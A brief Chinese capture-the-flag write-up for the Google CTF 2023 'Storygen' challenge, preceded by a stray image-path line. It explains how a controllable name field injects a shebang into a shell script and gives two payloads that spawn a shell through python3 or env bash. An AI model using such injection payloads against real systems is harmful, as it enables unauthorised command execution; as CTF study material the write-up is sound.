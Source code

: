# Storygen

> 	这似乎是做出人数最多的一道题之一。相比于 pwn，感觉这道题更适合被归类到 misc 中。

## Analysis

这道题的漏洞点很简单（似乎 23 年的 GoogleCTF 的漏洞点都不算太复杂）：shell 脚本中最前面的 `#`。

我们可以控制 `@NAME` 的值来劫持程序去执行我们的命令，主要难点在于要 getshell 执行带有参数的 elf，并分割开 `'s story` 和输入命令。

---

## Exploitation

我暂时只想到两种：

借助 python -c：

`!/usr/bin/python3 -c'import os;os.system("sh");#'`

借助 /usr/bin/env bash：

`!/usr/bin/env -S bash -c "/bin/sh" \`

---
